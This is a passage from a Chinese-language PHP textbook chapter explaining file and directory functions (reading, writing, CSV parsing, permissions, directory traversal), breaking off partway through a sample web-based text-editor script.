```
$counter = (int) fread( $handle, 20 );
```

由于 fread() 返回字符串值，而计数器需要是整数值，因此使用 (int) 将返回值转换为整数。（有关类型转换的更多信息，请参见第 3 章。）

对 fclose() 的调用会关闭文件句柄 $handle 引用的文件，释放文件以供其他进程读取或写入：

```
fclose( $handle );
```

关闭数据文件后，脚本递增计数器，并告诉访问者该页面被访问了多少次：

```
$counter++;
echo "<p>You're visitor No. $counter.</p>";
```

接下来，脚本将新的计数器值写回数据文件。为此，它以写入模式 (w) 打开文件，然后调用 fwrite() 将 $counter 变量的值写入文件，随后再次调用 fclose() 关闭打开的文件：

```
if ( ! ( $handle = fopen( $counterFile, "w" ) ) ) {
    die( "Cannot open the counter file for writing." );
}
fwrite( $handle, $counter );
fclose( $handle );
```

feof() 函数只有一个简单的用途：当文件指针到达文件末尾（或发生错误）时返回 true，否则返回 false。它只接受一个参数——要测试的文件句柄。请注意，feof() 只有在脚本尝试读取文件末尾字符之后的一个或多个字符时才会返回 true：

```
// hello_world.txt contains the characters "Hello, world!"
$handle = fopen( "hello_world.txt", "r" );
$hello = fread( $handle, 13 );
echo $hello . "<br />"; // Displays "Hello, world!"
echo feof( $handle ) . "<br />"; // Displays "" (false)
$five_more_chars = fread( $handle, 5 );
echo $five_more_chars . "<br />"; // Displays "" (or possibly a newline)
echo feof( $handle ) . "<br />"; // Displays "1" (true)
fclose( $handle );
```

feof() 在不知道文件有多长时，配合 fread() 或 fgetc() 在 while 循环中很有用：

```
// hello_world.txt contains the characters "Hello, world!"
$handle = fopen( "hello_world.txt", "r" );
$text = "";

while ( !feof( $handle ) ) {
    $text .= fread( $handle, 3 ); // Read 3 chars at a time
}

echo $text . "<br />"; // Displays "Hello, world!"
fclose( $handle );
```

## 一次读取一行

通常，一次按行从文件中读取文本很有用。一行是处理或显示的合适大小的文本块。例如，数据文件和配置文件通常每行包含一个信息块，例如数据记录或配置设置。

要从打开的文件中读取一行文本，请调用 fgets() 函数，并传入文件句柄。该函数从当前文件指针读取到当前行末尾，并将读取的字符作为字符串返回（如果出现问题，例如到达文件末尾，则返回 false）。请注意，行末尾的任何换行字符（或多个字符）也包含在字符串中。

您可以传入第二个整数参数来限制读取的字符数，在这种情况下，fgets() 在达到该字符数减一时停止（除非先到达行末尾）。在读取可能不包含换行符的大文件时，最好包含此参数。

以下示例使用 fgets() 一次读取并显示一个三行文本文件，一次一行。当 fgets() 返回 false（即到达文件末尾）时，while 循环退出：

```
/*
   milton.txt contains:
   The mind is its own place, and in it self
   Can make a Heav'n of Hell, a Hell of Heav'n.
   What matter where, if I be still the same,
   */

$handle = fopen( "milton.txt", "r" );
$lineNumber = 1;

while ( $line = fgets( $handle ) ) {
    echo $lineNumber++ . ": $line<br />";
}

fclose( $handle );
```

该代码产生以下输出：

```
1: The mind is its own place, and in it self
2: Can make a Heav'n of Hell, a Hell of Heav'n.
3: What matter where, if I be still the same,
```

## 读取 CSV 文件

如果您曾经做过导入和导出数据的工作，您可能知道逗号分隔值（CSV）数据格式。（CSV 甚至有自己的文件扩展名：.csv。）在 CSV 文件中，每个数据记录独占一行，每个记录中的字段由逗号分隔。字符串值通常用双引号括起来：

```
"John", "Smith",45
"Anna", "Clark",37
"Bill", "Murphy",32
```

要读取 CSV 文件，可以使用 fgetcsv()。该函数从打开的文件的文件指针位置开始读取一行 CSV 格式的数据，并将其找到的数据放入数组中，每个数组元素为一个字段值。一旦有了数据数组，就可以轻松地对其进行操作。

要调用 fgetcsv() 函数，请传入打开文件的文件句柄。您还可以选择指定：

- 要读取的最大字符数。可以省略此值，或使用 0，在这种情况下，PHP 会读取读取整行所需的尽可能多的字符。但是，指定一个值会使函数稍快一些
- 用于分隔每个数据值的分隔符。默认值是逗号 (,)。如果您正在读取制表符分隔值（TSV）文件，请为该参数指定 "\t"（制表符字符）
- 用于括起字符串值的字符。默认值是双引号 (")
- 用于转义特殊字符的字符。默认值是反斜杠 (\)

如果读取行时出现问题，或已到达文件末尾，fgetcsv() 返回 false。

以下代码片段显示如何从 CSV 格式的文件中检索三行数据：

```
/*
people.csv contains:
"John", "Smith",45
"Anna", "Clark",37
"Bill", "Murphy",32
*/

$handle = fopen( "people.csv", "r" );
while ( $record = fgetcsv( $handle, 1000 ) ) {
    echo "Name: {$record[0]} {$record[1]}, Age: {$record[2]}<br />";
}

fclose( $handle );
```

该代码显示：

```
Name: John Smith, Age: 45
Name: Anna Clark, Age: 37
Name: Bill Murphy, Age: 32
```

PHP 5.3 引入了一个新函数 str_getcsv()，它从字符串而不是从文件中读取 CSV 数据。如果您已经在内存中拥有 CSV 数据，这很方便。有关详细信息，请参见 http://www.php.net/manual/en/function.str-getcsv.php。

## 读写整个文件

编写代码逐行或逐字符串读取文件可能很乏味。幸运的是，PHP 提供了一些函数，可以一次性访问文件的完整内容。这些函数包括：

- `file()` — 将整个文件读入数组，无需打开文件
- `file_get_contents()` 和 `file_put_contents()` — 无需打开文件即可读取和写入文件内容
- `fpassthru()` — 显示打开文件的内容
- `readfile()` — 无需打开文件即可显示文件内容

由于这些函数一次性将整个文件读入内存，因此它们实际上应该只用于相对较小的文件（最多几 MB）。如果您正在处理一个 100MB 的文本文件，最好使用 fread() 或 fgets() 分块读取和处理文件。

file() 将文件内容读入数组，每个元素包含文件中的一行。它只接受一个参数——一个包含要读取的文件名的字符串——并返回包含文件行的数组。

数组中存储的每一行末尾都保留换行符。

与本节中描述的大多数其他函数一样，此函数不需要您指定文件句柄。您只需传入要读取的文件名。函数会自动打开、读取文件，并在完成后关闭文件。

您可以选择将一些有用的标志作为 file() 的第二个参数指定：

| 标志 | 说明 |
|---|---|
| FILE_USE_INCLUDE_PATH | 在包含路径中查找文件（有关包含路径的更多信息，请参见第 20 章） |
| FILE_IGNORE_NEW_LINES | 从数组中每一行末尾删除换行符 |
| FILE_SKIP_EMPTY_LINES | 忽略文件中的空行 |


与 PHP 中的其他标志一样，您可以将这些标志中的任何一个与按位 OR 运算符结合使用（有关详细信息，请参见第 3 章）。例如，以下代码在 include 路径中查找文件，找到后读取该文件，并忽略文件中的任何空行：

```
$lines = file( "myfile.txt", FILE_USE_INCLUDE_PATH | FILE_SKIP_EMPTY_LINES );
```

与 fopen() 类似，您也可以使用 file() 来获取远程主机上的文件：

```
$lines = file( "http://www.example.com/index.html" );
foreach ( $lines as $line ) echo $line . "<br />";
```

相关函数是 file_get_contents()。它与 file() 的工作类似，但它将文件内容作为单个字符串返回，而不是行数组。行尾字符包含在字符串中：

```
$fileContents = file_get_contents( "myfile.txt" );
```

如果读取文件时出现问题，file_get_contents() 返回 false。

您可以将 FILE_USE_INCLUDE_PATH 标志（前文所述）作为第二个参数传递给 file_get_contents()。

您还可以可选地传入偏移量和/或长度参数，以确定文件读取的起始位置以及要读取的字符数。例如，以下代码从 myfile.txt 读取 23 个字符，从第 17 个字符开始：

```
$fileContents = file_get_contents( "myfile.txt", null, null, 17, 23 );
```

> 第一个 null 参数避免设置 FILE_USE_INCLUDE_PATH 标志，第二个 null 参数避免设置上下文。上下文超出了本书的范围，但您可以在在线手册中找到更多相关信息 http://www.php.net/manual/en/stream.contexts.php。

file_put_contents() 是 file_get_contents() 的补充函数。如您所料，它接受一个字符串并将其写入文件：

```
$numChars = file_put_contents( "myfile.txt", $myString );
```

该函数返回写入的字符数，如果出现问题则返回 false。您可以通过将各种标志作为第三个参数传递来影响函数的行为。file_put_contents() 支持与 file_get_contents() 相同的标志，以及两个额外的标志：

| 标志 | 描述 |
|---|---|
| FILE_APPEND | 如果文件已存在，则将字符串追加到文件末尾，而不是覆盖文件。 |
| LOCK_EX | 在写入文件之前锁定文件。这可确保其他进程无法同时写入该文件。 |

您也可以锁定使用 fopen() 打开的文件。为此，请使用 flock()。有关更多详细信息，请参见 http://www.php.net/manual/en/function.flock.php。

fpassthru() 和 readfile() 都接受一个文件并将其未修改的内容直接输出到 Web 浏览器。fpassthru() 需要一个打开文件的句柄才能工作：

```
$numChars = fpassthru( $handle );
```

readfile() 则在未打开的文件上工作：

```
$numChars = readfile( "myfile.txt" );
```

如您所见，两个函数都返回读取的字符数（如果出现问题则返回 false）。fpassthru() 从当前文件指针位置读取，因此如果您已经读取了文件的某些部分，则只会发送文件的剩余部分。

您可以通过将 true 作为第二个参数传递来使 readfile() 在 include 路径中搜索文件。顺便提一下，readfile() 对于将二进制文件（例如图像和 PDF 文档）发送到 Web 浏览器以进行显示或下载非常方便。您在第 16 章中会看到此示例。

## 随机访问文件数据

使用您迄今遇到的函数，您只能按顺序操作数据，即按照数据在文件中排列的相同顺序。但是，有时您需要在打开的文件中跳来跳去。例如，您可能想要读取文件一次以搜索特定字符串，然后返回文件开头以搜索另一个字符串。当然，如果您使用 file_get_contents() 等函数读取了整个文件，这很容易实现。但是，对于大文件来说，这不切实际。

幸运的是，您可以在打开的文件中移动文件指针，以便从文件中的任何位置开始读取或写入。PHP 提供了三个函数供您操作文件指针：

- fseek() — 将文件指针重新定位到文件中的指定位置
- rewind() — 将文件指针移动到文件开头
- ftell() — 返回文件指针的当前位置

要使用 `fseek()`，请传递打开文件的句柄和一个整数偏移量。文件指针将移动到距文件开头指定数量的字符处（使用零将指针移动到第一个字符）。例如，以下代码将指针移动到文件中的第八个字符（即第一个字符之后的第七个字符），并显示该位置之后的接下来的五个字符：

```
// hello_world.txt contains the characters "Hello, world!"
$handle = fopen( "hello_world.txt", "r" );
fseek( $handle, 7 );
echo fread( $handle, 5 ); // Displays "world"
fclose( $handle );
```

要指定偏移量的计算方式，可以添加一个包含以下常量之一的第三个可选参数：

- SEEK_SET — 将指针设置为文件开头加上指定的偏移量（默认设置）
- SEEK_CUR — 将指针设置为当前位置加上指定的偏移量
- SEEK_END — 将指针设置为文件末尾加上指定的偏移量（与负偏移量一起使用）

如果指针定位成功，fseek() 返回 0；如果出现问题，则返回 -1。

> 您无法将此函数与通过 HTTP 或 FTP 打开的远程主机上的文件一起使用（例如，fopen( "http://www.example.com/" )）。

如果您想将指针移回文件开头（一种常见情况），一个方便的快捷方式是 rewind() 函数。以下两行代码的作用相同：

```
fseek( $handle, 0 );
rewind( $handle );
```

ftell() 函数接受一个文件句柄，并返回相应文件指针相对于文件开头的当前偏移量（以字符为单位）。例如：

```
$offset = ftell( $handle );
```

如前所述，fpassthru() 函数从当前文件位置开始输出文件数据。如果您已从打开的文件中读取数据但想输出文件的全部内容，请先调用 rewind()。

## 使用文件权限

文件系统权限决定不同用户可以对文件系统中的每个文件和目录执行什么操作。例如，一个用户可能有权读取和写入文件，而另一个用户可能只能读取文件。第三个用户可能甚至不允许执行此操作。

编写 PHP 脚本时，权限通常不会对您产生太大影响，因为 PHP 通常会在幕后做正确的事情。例如，如果您创建一个新文件用于写入，PHP 会自动为运行 PHP 脚本的用户（通常是 Web 服务器用户）授予该文件的读取和写入权限。如果您创建一个新目录，PHP 默认会为所有用户授予该目录的读取、写入和执行权限，这意味着任何人都可以在该目录中创建和删除文件。

在本节中，您将探索 PHP 的 chmod() 函数，该函数允许您更改文件或目录的模式（权限）。您还将查看三个 PHP 函数，这些函数允许您确定文件或目录是否可由当前用户读取、写入或执行。

## 更改权限

PHP 的 chmod() 函数用于更改文件或目录的模式或权限。它的工作方式与 UNIX chmod 命令非常相似。

本节主要适用于基于 UNIX 的 Web 服务器，例如 Linux 和 Mac OS X。Windows 服务器没有文件和目录模式的概念。相反，您使用 Windows 资源管理器通过右键单击项目、选择“属性”，然后单击“安全”选项卡来设置文件和文件夹的访问权限。您需要是管理员才能进行这些更改。如果您在共享 Windows 服务器上运行 PHP 脚本，并且需要对某个文件或文件夹设置权限，请向您的托管公司寻求帮助。他们通常会为您完成此操作，或者向您指向一个基于 Web 的控制面板，您可以在其中自行操作。

要使用 chmod() 更改文件的权限，请向其传递文件名和要使用的新模式。例如，要将文件的模式设置为 644，请使用：

```
chmod( "myfile.txt", 0644 );
```

644 前面的 0（零）很重要，因为它告诉 PHP 将这些数字解释为八进制数。

如果权限更改成功，chmod() 返回 true；如果失败，则返回 false（例如，您不是文件的所有者）。

那么文件模式是如何工作的？下面是一个快速入门。

文件模式通常表示为包含三位数的八进制数。第一个数字确定文件所有者（通常是创建文件的用户）可以对文件执行什么操作。第二个数字确定文件组中的用户（同样，通常是创建文件的用户的组）可以对其执行什么操作。最后，最后一个数字决定其他所有人可以对文件执行什么操作。

每个数字的值代表该特定用户类的访问权限，如下所示：

| 数字值 | 权限 |
|---|---|
| 0 | 不能读取、写入或执行文件 |
| 1 | 只能执行文件 |
| 2 | 只能写入文件 |


| 数字值 | 权限 |
| --- | --- |
| 3 | 可以写入并执行文件 |
| 4 | 只能读取文件 |
| 5 | 可以读取并执行文件 |
| 6 | 可以读取并写入文件 |
| 7 | 可以读取、写入并执行文件 |

以下是一些常用示例，以使文件模式的概念更清晰：

```
// Owner can read and write the file; everyone else can just read it:
chmod( "myfile.txt", 0644 );
```

```
// Everyone can read and write the file:
chmod( "myfile.txt", 0666 );
```

```
// Everyone can read and execute the file, but only the owner can write to it:
chmod( "myfile.txt", 0755 );
```

```
// Only the owner can access the file, and they can only read and write to it:
chmod( "myfile.txt", 0600 );
```

请注意，只有当你拥有文件或目录，或者你是超级用户时，才能更改文件或目录的权限（对于运行在 Web 服务器上的 PHP 脚本来说，后者可能性极小）。

那么，模式与目录如何配合使用呢？要读取目录中的文件，你需要对该目录拥有读取和执行权限。同时，要在目录中创建和删除文件及子目录，你需要对该目录拥有写入和执行权限。

## 检查文件权限

在脚本中对文件执行某些操作之前，了解脚本可以对文件执行哪些操作很有用。PHP 提供了三个实用函数来帮助你。

要检查是否允许读取文件，请使用 is_readable()，并传入要检查的文件名。同样，你可以使用 is_writable() 检查是否允许写入文件，并使用 is_executable() 查看是否可以执行文件。如果允许该操作，每个函数都返回 true，否则返回 false。例如：

```
if ( is_readable( "myfile.txt" ) ) {
 echo "I can read myfile.txt";
}

if ( is_writable( "myfile.txt" ) ) {
 echo "I can write to myfile.txt";
}
if ( is_executable( "myfile.txt" ) ) {
    echo "I can execute myfile.txt";
}
```

你也可以使用 fileperms() 函数返回表示文件或目录上设置的权限的整数。例如，要打印文件上权限的八进制值，你可以使用：

```
chmod( "myfile.txt", 0644 );
echo substr( sprintf( "%o", fileperms( "myfile.txt" ) ), -4 ); // Displays
"0644"
```

（调用 substr() 是为了仅返回最后四位数字，因为返回值中的其他八进制数字无关紧要。）

## 复制、重命名和删除文件

PHP 还允许你复制、重命名和删除文件。执行这些操作的函数分别是 copy()、rename() 和 unlink()。

copy() 函数接受两个字符串参数：第一个参数是要复制的文件路径，第二个参数是要复制到的路径。如果文件成功复制，则返回 true；如果复制文件时出现问题，则返回 false。以下示例将源文件 copyme.txt 复制到同一文件夹中的目标文件 copied.txt：

```
copy( "./copyme.txt", "./copied.txt" );
```

rename() 函数用于重命名（或移动）文件。它的工作方式与 copy() 非常相似。例如，要在文件夹内重命名文件，你可以使用：

```
rename( "./address.dat", "./address.backup" );
```

要将文件移动到不同文件夹，你可以使用：

```
rename( "/home/joe/myfile.txt", "/home/joe/archives/myfile.txt" );
```

unlink() 函数允许你从服务器删除文件。要使用它，请传入要删除的文件名。例如，如果你想对当前目录中的文件 trash.txt 说再见，你可以编写：

```
unlink( "./trash.txt" );
```

如果找不到相关文件或目录，copy()、rename() 和 unlink() 会引发警告级别的错误。请先确保文件或目录存在（例如，通过使用 file_exists()）以避免此类错误。

## 使用目录

PHP 允许你以与文件非常相似的方式使用目录，使用各种等效函数。某些目录函数使用目录句柄，而另一些则使用包含你要操作的目录名称的字符串。目录句柄类似于文件句柄；它是指向目录的特殊变量，你可以通过 opendir() 函数获取：

```
$handle = opendir( "/home/james" );
```

如果打开目录时出现问题（例如，目录不存在），opendir() 会返回 false 而不是目录句柄。你可能已经猜到了，你可以通过将目录句柄传递给函数 closedir() 来关闭目录：

```
closedir( $handle );
```

readdir() 函数期望一个已打开目录的目录句柄，并返回目录中下一个条目的文件名：

```
$filename = readdir( $handle );
```

每个目录都包含其内部每个文件和子目录的条目列表，以及 .（表示目录本身）和 ..（目录的父目录）的条目。PHP 维护一个指向列表中下一个条目的内部指针，就像文件指针指向文件中下一个文件操作应发生的位置一样。

## 尝试：列出目录条目

以下是如何设置循环以获取指定目录内的所有文件和文件夹。将以下脚本保存为文档根文件夹中的 dir_list.php。现在更改文件中的 $dirPath 变量，使其包含 Web 服务器上真实目录的路径。在 Web 浏览器中打开脚本的 URL 以测试它。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Listing the contents of a directory</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Listing the contents of a directory</h1>
<?php
$dirPath = "/home/matt/images";
if ( ! ( $handle = opendir( $dirPath ) ) ) die( "Cannot open the directory. " );
?>
<p><?php echo $dirPath ?> contains the following files and folders:</p>
<ul>
<?php
while ( $file = readdir( $handle ) ) {
    if ( $file != "." && $file != ".." ) echo "<li>$file</li>";
}

closedir( $handle );
?>
</ul>
</body>
</html>
```

图 11-2 显示了示例结果。


图 11-2

## 工作原理

在显示页眉并将要扫描的目录路径存储在 $dirPath 变量中后，脚本会获取目录句柄：

```
if ( ! ( $handle = opendir( $dirPath ) ) ) die( "Cannot open the directory." );
```

如果目录成功打开，则在页面上显示其名称并开始一个无序列表（ul）HTML 元素。接下来，脚本使用 readdir() 循环遍历目录中的每个条目，只要条目不是‘.’或‘..’，就显示它。当 readdir() 返回 false 时循环退出，这发生在条目列表耗尽时：

```
while ( $file = readdir( $handle ) ) {
    if ( $file != "." && $file != ".." ) echo "<li>$file</li>";
}
```

最后，脚本调用 closedir() 关闭目录，然后完成列表和页面的标记。

你可以看到返回的文件名未按任何方式排序。要对其进行排序，首先将条目读入数组：

```
$filenames = array();
while ( $file = readdir( $handle ) ) $filenames[] = $file;
closedir( $handle );
```

$filenames 数组现在包含目录中的每个条目。现在你可以调用 sort() 将数组元素按升序排列，然后循环遍历数组，显示除"."和".."条目以外的所有内容：

```
sort( $filenames );
foreach ( $filenames as $file ) {
  if ( $file != "." && $file != ".." ) {
    echo "<li>$file</li>";
  }
}
```

## 其他目录函数

与文件一样，PHP 提供了多种操作目录的方法，包括以下函数：

- rewinddir() — 将目录指针移回条目列表的开头
- chdir() — 更改当前目录
- mkdir() — 创建目录
- rmdir() — 删除目录
- dirname() — 返回路径的目录部分

## 重置目录指针

rewinddir() 函数将 PHP 的内部指针重置回给定目录中的第一个条目。此函数是文件 rewind() 函数的目录对照物。要使用 rewinddir()，请将打开的目录句柄传递给它，如下所示：

```
rewinddir( $handle );
```

## 更改当前目录

chdir() 函数调用将当前目录更改为新目录：

```
chdir( "/home/matt/myfolder" );
```


chdir() 如果 PHP 成功切换到指定目录则返回 true，如果出现错误（例如找不到目录）则返回 false。

当前目录是 PHP 首先查找文件的目录。如果你指定的路径既不是绝对路径也不是相对路径，PHP 会在当前目录中查找文件。因此，以下代码

```
chdir( "/home/matt/myfolder" );
$handle = fopen( "myfile.txt" );
```

打开的与以下代码相同的 myfile.txt 文件：

```
$handle = fopen( "/home/matt/myfolder/myfile.txt" );
```

当前目录也用作相对文件路径的基准目录。例如：

```
chdir( "/home/joe/images" );
$handle = fopen( "../myfile.txt" ); // Looks for myfile.txt in /home/joe
```

通常，当前目录默认为包含运行脚本的目录。你可以通过调用 getcwd() 获取当前目录：

```
chdir( "/home/matt/newfolder" );
echo getcwd(); // Displays "/home/matt/newfolder"
```

## 创建目录

要创建新目录，请调用 mkdir() 函数，并传入要创建的目录路径：

```
mkdir( "/home/matt/newfolder" );
```

请注意，父目录必须已经存在（如刚才示例中的 "/home/matt"），函数才能正常工作。mkdir() 如果目录创建成功则返回 true，如果出现问题则返回 false。

你还可以在创建目录时通过将 mode 作为第二个参数传入来设置目录权限。其工作方式与使用 chmod() 类似——有关详细信息，请参见本章前面的“更改权限”部分。例如，以下代码创建一个向所有用户授予读、写和执行权限的目录：

```
mkdir( "/home/matt/newfolder", 0777 );
```

文件和目录模式仅适用于 Linux 和 Mac OS 等 UNIX 系统；在 Windows 机器上使用时无效。

## 删除目录

rmdir() 函数删除给定目录。目录必须为空，并且你需要具备适当的权限才能删除它。例如：

```
rmdir( "/home/matt/myfolder" );
```

如果 PHP 无法删除目录——例如，因为它不是空的——rmdir() 返回 false；否则返回 true。

## 获取目录路径

dirname() 函数返回给定路径的目录部分。它与 basename() 函数互补，后者返回给定路径的文件名部分（有关详细信息，请参见本章前面的“从路径中检索文件名”部分）。

例如：

```
$path = "/home/james/docs/index.html";
$directoryPath = dirname( $path );
$filename = basename( $path );
```

运行此代码后，$directoryPath 包含 "/home/james/docs"，而 $filename 保存 "index.html"。

## 使用目录对象

PHP 提供了一种用于处理目录的面向对象替代机制：Directory 类。要使用它，请先通过调用 dir() 函数并传入要处理的目录名称来创建 Directory 对象，如下所示：

```
$dir = dir( "/home/james/docs" );
```

Directory 对象提供两个属性：handle 和 path。它们分别指目录句柄和目录路径：

```
echo $dir->handle . "<br />"; // Displays the directory handle
echo $dir->path . "<br />"; // Displays "/home/james/docs"
```

你可以将 handle 属性与其他目录函数（例如 readdir()、rewinddir() 和 closedir()）一起使用，就像使用普通目录句柄一样。

Directory 对象支持三种方法——read()、rewind() 和 close()——它们分别与 readdir()、rewinddir() 和 closedir() 在功能上等效。例如，你可以使用 Directory 对象重写本章前面的 dir_list.php 脚本：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Listing the contents of a directory</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Listing the contents of a directory</h1>

<?php

$dirPath = "/home/matt/images";
$dir = dir( $dirPath );

?>

<?php echo $dirPath ?> contains the following files and folders:</p>
<ul>
<?php
while ( $file = $dir->read() ) {
    if ( $file != "." && $file != ".." ) echo "<li>$file</li>";
}
$dir->close();
?>
</ul>
</body>
</html>
```

## 区分文件与目录

通常你需要知道某个特定文件是普通文件还是目录。例如，假设你想编写一些代码来遍历文件夹树。你需要检测文件何时实际上是文件夹，以便进入文件夹并继续遍历树。同样，如果你想显示文件夹中的文件，你需要检测文件何时实际上是普通文件。

*请记住：目录和普通文件本质上都是文件，但目录是一种特殊的文件。*

PHP 提供两个函数来帮助你测试文件或目录：

- `is_dir()` — 如果给定的文件名指向目录，则返回 true
- `is_file()` — 如果给定的文件名指向普通文件，则返回 true

以下是一个简单示例，用于判断名为 myfile 的文件是文件还是目录：

```
$filename = "myfile";

if ( is_dir( $filename ) ) {
    echo "$filename is a directory.";
} elseif ( is_file( $filename ) ) {
    echo "$filename is a file.";
} else {
    echo "$filename is neither a directory nor a file.";
}
```

## 遍历目录层次结构

如你在第 7 章中所学，当脚本需要对大小未知的一组数据执行重复操作时，递归特别有用，而遍历目录层次结构就是一个非常好的示例。

目录可能包含子目录和文件。如果你想创建一个列出给定目录下所有文件和子目录（包括子目录的子目录，等等）的脚本，则需要编写一个递归函数，如下所示：

- 1. 读取当前目录中的条目。
- 2. 如果下一个条目是文件，则显示其名称。
- 3. 如果下一个条目是子目录，则显示其名称，然后递归调用该函数以读取其中的条目。

如你所见，必要时，第三步会自行重复整个过程。递归将持续进行，直到没有更多子目录可遍历为止。

要尝试此技术，请先将以下脚本保存为 directory_tree.php。现在将脚本顶部的 $dirPath 变量更改为指向 Web 服务器硬盘上的文件夹，并在 Web 浏览器中打开脚本的 URL。你应该会看到类似图 11-3 的页面。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
  <title>Listing the contents of a directory</title>
  <link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
  <h1>Listing the contents of a directory</h1>

<?php

$dirPath = "/home/matt/images";

function traverseDir( $dir ) {
  echo "<h2>Listing $dir ...</h2>";
  if ( ! ( $handle = opendir( $dir ) ) ) die( "Cannot open $dir." );

$files = array();

while ( $file = readdir( $handle ) ) {
  if ( $file != "." && $file != ".." ) {
    if ( is_dir( $dir . "/" . $file ) ) $file .= "/";
    $files[] = $file;
  }
}

sort( $files );
echo "<ul>";
foreach ( $files as $file ) echo "<li>$file</li>";
echo "</ul>";

foreach ( $files as $file ) {
    if ( substr( $file, -1 ) == "/" ) traverseDir( "$dir/" . substr( $file,
0, -1 ) );
}

closedir( $handle );
}

traverseDir( $dirPath );

?>
</body>
</html>
```


## 图 11-3

## 工作原理

traverseDir() 递归函数遍历指定目录下的整个目录层次结构。首先，函数显示当前正在探索的目录路径。然后，它使用 opendir() 打开目录：

```
if ( ! $handle = opendir( $dir ) ) die( "Cannot open $dir." );
```

接下来，函数设置一个 $files 数组来保存目录中的文件名列表，然后使用带有 while 循环的 readdir() 遍历目录中的每个条目，并在遍历过程中将每个文件名添加到数组中（“.”和“..”被跳过）。如果特定文件名是目录，则在文件名末尾添加一个斜杠（/），以向用户（和函数的其余部分）指示该文件实际上是目录：

```
$files = array();

while ( $file = readdir( $handle ) ) {
    if ( $file != "." && $file != ".." ) {
        if ( is_dir( $dir . "/" . $file ) ) $file .= "/";
        $files[] = $file;
    }
}
```

现在，文件名数组按字母顺序排序以帮助阅读，文件名以无序列表的形式显示：

```
sort( $files );
echo "<ul>";
foreach ( $files as $file ) echo "<li>$file</li>";
echo "</ul>";
```

函数的最后一部分再次遍历数组，查找任何目录（文件名以斜杠结尾的条目）。如果找到目录，函数会使用目录路径（去掉末尾的斜杠）调用自身以探索目录内容：

```
foreach ( $files as $file ) {
    if ( substr( $file, -1 ) == "/" ) traverseDir( "$dir/" . substr( $file,
0, -1 ) );
}
```

最后，关闭目录句柄：

```
closedir( $handle );
```

脚本中的最后一行代码启动目录遍历，从初始顶层目录的路径开始：

```
traverseDir( $dirPath );
```


## 构建文本编辑器

掌握了 PHP 的文件和目录处理能力基础后，是时候创建一个简单的基于 Web 的文本文件编辑器应用程序了。该编辑器将显示指定文件夹中的文本文件列表，邀请用户通过点击文件名来编辑文件。编辑页将仅在 HTML 文本区域字段中显示文件内容，并带有保存更改或取消编辑的按钮。

用户还可以创建新文本文件进行操作。为求简单，编辑器将仅处理带 .txt 文件扩展名的文本文件。

### 文本编辑器脚本

以下是文本编辑器的代码。将其保存为文档根目录中的 text_editor.php：

```php
<?php
define("PATH_TO_FILES", "/home/matt/sandbox");
if (isset($_POST["saveFile"])) {
    saveFile();
} elseif (isset($_GET["filename"])) {
    displayEditForm();
} elseif (isset($_POST["createFile"])) {
    createFile();
} else {
    displayFileList();
}
function displayFileList($message="") {
    displayPageHeader();
    if (!file_exists(PATH_TO_FILES)) die("Directory not found");
    if (!($dir = dir(PATH_TO_FILES))) die("Can't open directory");
    ?>
    <?php if ($message) echo '<p class="error">' . $message . '</p>' ?>
    <h2>Choose a file to edit:</h2>
    <table cellspacing="0" border="0" style="width: 40em; border: 1px solid #666;">
    <tr>
    <th>Filename</th>
    <th>Size (bytes)</th>
    <th>Last Modified</th>
    </tr>
    <?php
    while ($filename = $dir->read()) {
        $filepath = PATH_TO_FILES . "/$filename";
        if ($filename != "." && $filename != ".." && !is_dir($filepath) &&
            strrchr($filename, ".") == ".txt") {
            echo '<tr><td><a href="text_editor.php?filename=' . urlencode($filename) . '">' . $filename . '</a></td>';
            echo '<td>' . filesize($filepath) . '</td>';
            echo '<td>' . date("M j, Y H:i:s", filemtime($filepath)) .
            '</td></tr>';
        }
    }

    $dir->close();
    ?>
    </table>
    <h2>...or create a new file:</h2>
    <form action="text_editor.php" method="post">
    <div style="width: 20em;">
    <label for="filename">Filename</label>
    <div style="float: right; width: 7%; margin-top: 0.7em;">
    <input type="text" name="filename" id="filename" style="width: 50%;" value="" />
    <div style="clear: both;">
    <input type="submit" name="createFile" value="Create File" />
    </div>
    </div>
    </form>
    </body>
    </html>
    <?php
    }
    function displayEditForm($filename="") {
    if (!$filename) $filename = basename($_GET["filename"]);
    if (!$filename) die("Invalid filename");
    $filepath = PATH_TO_FILES . "/$filename";
    if (!file_exists($filepath)) die("File not found");
    displayPageHeader();
    ?>
    <h2>Editing <?php echo $filename ?> </h2>
    <form action="text_editor.php" method="post">
    <div style="width: 40em;">
    <input type="hidden" name="filename" value="<?php echo $filename ?>" />
    <textarea name="fileContents" id="fileContents" rows="20" cols="80" style="width: 100%;"><?php
    echo htmlspecialchars(file_get_contents($filepath))
    ?></textarea>
    <div style="clear: both;">
    <input type="submit" name="saveFile" value="Save File" />
    <input type="submit" name="cancel" value="Cancel" style="margin-right: 20px;" />
    </div>
    </div>
    </form>
    </body>
    </html>
    <?php
    }
    function saveFile() {
    $filename = basename($_POST["filename"]);
    $filepath = PATH_TO_FILES . "/$filename";
    if (file_exists($filepath)) {
        if (file_put_contents($filepath, $_POST["fileContents"]) == false)
            die("Couldn't save file");
        displayFileList();
    } else {
        die("File not found");
    }
    }

    function createFile() {
        $filename = basename($_POST["filename"]);
        $filename = preg_replace("/[^A-Za-z0-9_\-]/", "", $filename);

        if (!$filename) {
            displayFileList("Invalid filename - please try again");
            return;
        }

        $filename .= ".txt";
        $filepath = PATH_TO_FILES . "/$filename";
        if (file_exists($filepath)) {
            displayFileList("The file $filename already exists!");
        } else {
            if (file_put_contents($filepath, "") == false) die("Couldn't create file");
            chmod($filepath, 0666);
            displayEditForm("$filename");
        }
    }

    function displayPageHeader() {
